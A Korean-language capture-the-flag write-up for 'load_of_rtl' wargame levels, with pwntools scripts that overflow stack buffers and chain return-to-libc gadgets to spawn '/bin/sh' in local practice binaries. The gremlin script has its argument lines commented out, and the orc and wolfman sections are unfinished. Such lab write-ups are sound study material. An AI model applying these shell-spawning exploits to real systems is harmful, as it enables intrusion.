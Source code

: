 # load_of_rtl

## cobolt

You can use write, read, system and /bin/sh  
gdb를 통해 디버깅하여 system_plt = 0x4010b0임을 알 수 있고, pop_rdi 가젯의 주소와 /bin/sh의 주소를 확인할 수 있다.
버퍼의 크기와 dummy, SFP를 덮은 뒤 ret를 pop_rdi 가젯의 주소로 덮는다. pop_rdi 가젯을 활용하면 rdi에 /bin/sh의 주소를 넣은 뒤 system 함수의 plt로 return하여 system("/bin/sh")를 호출하게 된다.


```python
from pwn import *

p = process("./cobolt")

pop_rdi = 0x401353
binsh = 0x404060
system_plt = 0x4010b0

p.recvuntil(b"You can use write, read, system and /bin/sh\n")

payload = b'A'*0x40
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi+1)
payload += p64(system_plt)
p.send(payload)

p.interactive()
```


## goblin


You can use read and system  
gdb를 통해 디버깅하여 read함수의 주소와 system함수의 주소를 알아낼 수 있다. "/bin/sh" 문자열이 필요하므로 ASLR의 영향을 받지 않는 bss영역에 문자열을 작성해야 한다. read(0,bss,8) 함수를 이용하여 bss영역에 문자열을 작성할 수 있다. 이와 같은 방식으로 RTL을 반복할 수 있다. 이후 system함수의 주소와 "/bin/sh" 주소를 쓰면 함수를 실행할 수 있다.

```python
from pwn import *

p = process("./goblin")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490b0
system_plt = 0x80490e0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)
# system 실행
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
# sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()
```





## gremlin


You can use write, read, system and /bin/sh  
system("/bin/sh")를 호출하기 위해 system함수의 주소와 "/bin/sh"의 주소를 구한다. ret를 system함수로 덮어주고 esp+0x4 자리에 "/bin/sh"의 주소를 쓰고 사이를 더미값으로 채워주면 system("/bin/sh")를 호출할 수 있다.

```python
from pwn import *

p = process("./gremlin")

system_plt = 0x80490f0
binsh = 0x804c034

# system("/bin/sh") 실행
p.recvuntil(b"You can use write, read, system and /bin/sh\n")
payload = b'A'*0x44
payload += b'B'*0x4
payload += p32(system_plt)
# payload += b'C'*0x4
# payload += p32(binsh)
pause()
p.send(payload)

p.interactive()
```



## orc 

You can use only read  
read를 사용하여 "/bin/sh"를 bss 영역에 쓸 수 있지만, system함수가 주어지지 않았으므로 라이브러리에서 찾아야 한다.




## wolfman
